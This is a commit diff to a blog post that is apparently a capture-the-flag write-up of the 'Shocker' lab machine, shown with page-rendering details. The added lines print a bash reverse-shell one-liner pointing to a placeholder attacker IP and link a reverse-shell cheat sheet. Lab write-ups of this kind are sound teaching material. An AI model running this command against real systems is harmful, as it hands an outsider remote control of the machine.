

Before and after one commit to ch4n3l/ch4n3l.github.io, a Jekyll site: the page built from _posts/2017/2018-09-13-shocker-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 4056 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4501 px from its top, so only the background shows below that.

Commit message:
revshell shocker

```diff
--- a/_posts/2017/2018-09-13-shocker-writeup.md
+++ b/_posts/2017/2018-09-13-shocker-writeup.md
@@ -82,8 +82,21 @@ This will list the contents in the directory. I'm going to insert the payload in
 
 ![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/response.png)
 
-Looking at the response, we see that it prints out the directory contents, which means we have command execution.
+Looking at the response, we see that it prints out the directory contents, which means we have `command execution`
 
+In order to get a low-privilege shell, I am going to use the bash reverse shell one-liner.
+
+~~~
+$ bash -i >& /dev/tcp/YOURIP/PORT 0>&1
+
+http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
+~~~
+
+![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/request2.png)
+
+Looking at our listener:
+
+![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/revshell.png)
 
 
 
```
Also changed, not shown: images/posts/2017/shocker/request2.png (added), images/posts/2017/shocker/revshell.png (added).
